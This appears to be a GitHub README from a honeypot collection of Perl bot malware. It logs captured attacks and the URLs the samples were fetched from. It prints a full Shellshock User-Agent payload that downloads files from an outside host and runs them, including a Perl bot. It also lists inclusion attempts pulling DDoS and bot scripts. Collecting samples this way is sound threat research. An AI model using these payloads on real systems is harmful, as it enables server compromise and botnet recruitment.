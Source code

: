 # Collection of Perl Bot scripts

## Captured First
Trojan exploiting Shellshock

### Contents of ``perlbot.tar.gz``
	ffak.txt, ffak.txt, ffperl_1.txt, ffperl.jpg, ffst.txt

### Log of Exploit
	---BEGIN---
		Fri Mar 10 2017 07:58:21 GMT+0000 (UTC)
		New Connection 212.179.90.226 -> 138.68.229.32
		User Agent: () { :;}; /bin/bash -c "cd /tmp; wget -O /tmp/p http://loss.at.ua/ffperl.txt; wget -O /tmp/ffak http://loss.at.ua/ffak.txt; wget -O /tmp/ffst http://loss.at.ua/ffst.txt; chmod +x p ffak ffst; ./ffak; ./ffst; cd /tmp; wget -O /tmp/ffperl.jpg http://loss.at.ua/ffperl.jpg; curl -O /tmp/ffperl.jpg http://loss.at.ua/ffperl.jpg; fetch http://loss.at.ua/ffperl.jpg; tar xvf /tmp/ffperl.jpg; rm -rf /tmp/ffperl.jpg; cd /tmp/.usage; chmod +x *; ./ak; ./st; perl p.txt"
		Requested Resource: /
		Request Method: GET
		Accept: undefined
		Content Type: undefined
		Content Length: undefined


## Captured second
ddos.txt, pbotz.txt
### FROM LOG ENTRY:
``awstats032017.webmail.lynxitalia.it.txt.ORIGINAL``
3952    /[Scripthttp://hhispano.com.ar//gohack/ddos.txt 1 -
3945    /awstats/[Scripthttp://hhispano.com.ar//gohack/pbotz.txt

## URL
hxxp://hhispano.com.ar//gohack/ddos.txt

## HEADERS
###REQUEST HEADERS:
	Host: hhispano.com.ar
	User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: keep-alive


###RESPONSE HEADERS:
	Accept-Ranges: bytes
	Content-Length: 66695
	Content-Type: text/plain
	Date: Tue, 11 Apr 2017 15:12:14 GMT
	Etag: "10487-54b02f335cd74"
	Last-Modified: Sat, 18 Mar 2017 15:28:45 GMT
	Server: Apache

## URL
hxxp://hhispano.com.ar//gohack/pbotz.txt
## HEADERS
###REQUEST HEADERS:
	Host: hhispano.com.ar
	User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: keep-alive
	If-Modified-Since: Tue, 21 Mar 2017 14:00:13 GMT
	If-None-Match: "5611-54b3e10178478"
	Cache-Control: max-age=0

###RESPONSE HEADERS:
	Connection: Keep-Alive
	Date: Tue, 11 Apr 2017 15:29:54 GMT
	Etag: "5611-54b3e10178478"
	Keep-Alive: timeout=5, max=100
	Server: Apache

## Captured third
hxxps://transfer.sh/MBq1n/rion.tgz
### Background
Note that this is not actually a .tgz file. It is a perl script.

Originally from Telnet honeypot, attacking port 80 with a shellshock variation. Log entry is unavailable.

## Captured Fourth
Found these variations at the end of (this article)[https://www.solutionary.com/resource-center/blog/2017/03/apache-struts-2-exploit-analysis/]
